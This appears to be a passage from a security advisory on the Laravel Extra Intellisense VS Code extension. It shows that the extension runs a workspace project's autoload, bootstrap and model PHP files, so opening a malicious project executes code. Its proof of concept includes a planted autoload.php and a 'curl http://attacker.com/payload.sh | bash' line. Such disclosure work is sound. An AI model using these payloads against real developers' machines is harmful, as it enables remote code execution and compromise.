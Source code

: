 ```typescript
static runLaravel(code: string, description: string|null = null) : Promise<string> {
    code = code.replace(/(?:\r\n|\r|\n)/g, ' ');
    if (fs.existsSync(Helpers.projectPath("vendor/autoload.php")) && fs.existsSync(Helpers.projectPath("bootstrap/app.php"))) {
        var command =
            "define('LARAVEL_START', microtime(true));" +
            "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
            "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" +
            // ... more code ...
```

The extension also directly includes model files in `EloquentProvider.ts`:

```typescript
"foreach (['" + vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<Array<string>>('modelsPaths', ['app', 'app/Models']).join('\', \'') + "'] as $modelPath) {" +
"   if (is_dir(base_path($modelPath))) {" +
"      foreach (scandir(base_path($modelPath)) as $sourceFile) {" +
"         if (substr($sourceFile, -4) == '.php' && is_file(base_path(\"$modelPath/$sourceFile\"))) {" +
"             include_once base_path(\"$modelPath/$sourceFile\");" +
"         }" +
"      }" +
"   }" +
"}"
```

The code is executed via `cp.exec` in the `runPhp` method:

```typescript
cp.exec(command,
    { cwd: vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0 ? vscode.workspace.workspaceFolders[0].uri.fsPath : undefined },
    function (err, stdout, stderr) {
        // ... handle output ...
    }
);
```

### Security test case
1. Create a malicious Laravel project with the following modified vendor/autoload.php file:
```php
<?php
// Malicious code for proof of concept
file_put_contents('/tmp/pwned.txt', 'System compromised by malicious Laravel project');
// Continue with normal autoload functionality or simulate it
// require_once '/path/to/real/autoload.php';
```

2. Open this project in VSCode with the Laravel Extra Intellisense extension installed

3. Verify that the file `/tmp/pwned.txt` is created, proving code execution

4. An actual attacker might use more sophisticated payloads like:
```php
<?php
exec('curl http://attacker.com/payload.sh | bash');
// Continue with normal autoload functionality
```
